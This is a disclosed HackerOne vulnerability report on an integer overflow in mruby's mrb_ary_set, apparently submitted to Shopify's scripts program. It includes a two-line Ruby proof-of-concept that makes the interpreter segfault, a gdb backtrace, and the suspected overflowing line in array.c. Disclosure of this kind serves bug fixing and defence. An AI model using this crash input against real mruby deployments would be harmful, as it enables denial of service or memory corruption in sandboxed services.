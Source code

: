 # Integer Overflow in mrb_ary_set

## Report Details
- **Report ID**: 192235
- **URL**: https://hackerone.com/reports/192235
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-12-18T16:31:25.215Z
- **Disclosed**: 2017-01-12T03:09:35.290Z

## Reporter
- **Username**: tunz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Hi,

I found a crash in mruby. I frankly couldn't reproduce it in mruby-engine. I think it is because of memory limitation, but I'm not sure.

Here is a PoC (when the size of MRB_INT is 32). 

```ruby
ary = Array.new(0)
ary[0x7fffffff] = 1
```

```
$ gdb -q --args ./bin/mruby ./test.rb
Reading symbols from ./bin/mruby...done.
(gdb) r
Starting program: /home/tunz/working/mruby/mruby/bin/mruby ./test.rb

Program received signal SIGSEGV, Segmentation fault.
0x00000000004146a8 in ary_fill_with_nil (ptr=0x1357010, size=2147476218) at /home/tunz/working/mruby/mruby/src/array.c:104
104         *ptr++ = nil;
(gdb) list
99      ary_fill_with_nil(mrb_value *ptr, mrb_int size)
100     {
101       mrb_value nil = mrb_nil_value();
102
103       while (size--) {
104         *ptr++ = nil;
105       }
106     }
107
108     static void
(gdb) x/i $pc
=> 0x4146a8 <ary_fill_with_nil+50>:     mov    QWORD PTR [rcx],rax
(gdb) i r rcx
rcx            0x1357000        20279296
(gdb) bt
#0  0x00000000004146a8 in ary_fill_with_nil (ptr=0x1357010, size=2147476218) at /home/tunz/working/mruby/mruby/src/array.c:104
#1  0x0000000000415ab1 in mrb_ary_set (mrb=0x12d2010, ary=..., n=2147483647, val=...)
    at /home/tunz/working/mruby/mruby/src/array.c:564
#2  0x0000000000416266 in mrb_ary_aset (mrb=0x12d2010, self=...) at /home/tunz/working/mruby/mruby/src/array.c:798
#3  0x000000000043032c in mrb_vm_exec (mrb=0x12d2010, proc=0x12d5210, pc=0x133a020) at /home/tunz/working/mruby/mruby/src/vm.c:1171
#4  0x000000000042e850 in mrb_vm_run (mrb=0x12d2010, proc=0x12d5210, self=..., stack_keep=0)
    at /home/tunz/working/mruby/mruby/src/vm.c:772
#5  0x00000000004367f6 in mrb_top_run (mrb=0x12d2010, proc=0x12d5210, self=..., stack_keep=0)
    at /home/tunz/working/mruby/mruby/src/vm.c:2487
#6  0x0000000000446ea4 in mrb_load_exec (mrb=0x12d2010, p=0x132e2c0, c=0x132cf30)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-compiler/core/parse.y:5755
#7  0x0000000000446f3a in mrb_load_file_cxt (mrb=0x12d2010, f=0x132df00, c=0x132cf30)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-compiler/core/parse.y:5764
#8  0x00000000004024f8 in main (argc=2, argv=0x7fff6f302128)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232
```

I think the root cause of this bug is the following line:
```C
 548 MRB_API void
 549 mrb_ary_set(mrb_state *mrb, mrb_value ary, mrb_int n, mrb_value val)
 550 {
...
 562     if (a->aux.capa <= n)
 563       ary_expand_capa(mrb, a, n + 1); // <- n + 1 can be overflowed?
 564     ary_fill_with_nil(a->ptr + a->len, n + 1 - a->len);
 565     a->len = n + 1;
 566   }
```

## Attachments
No attachments

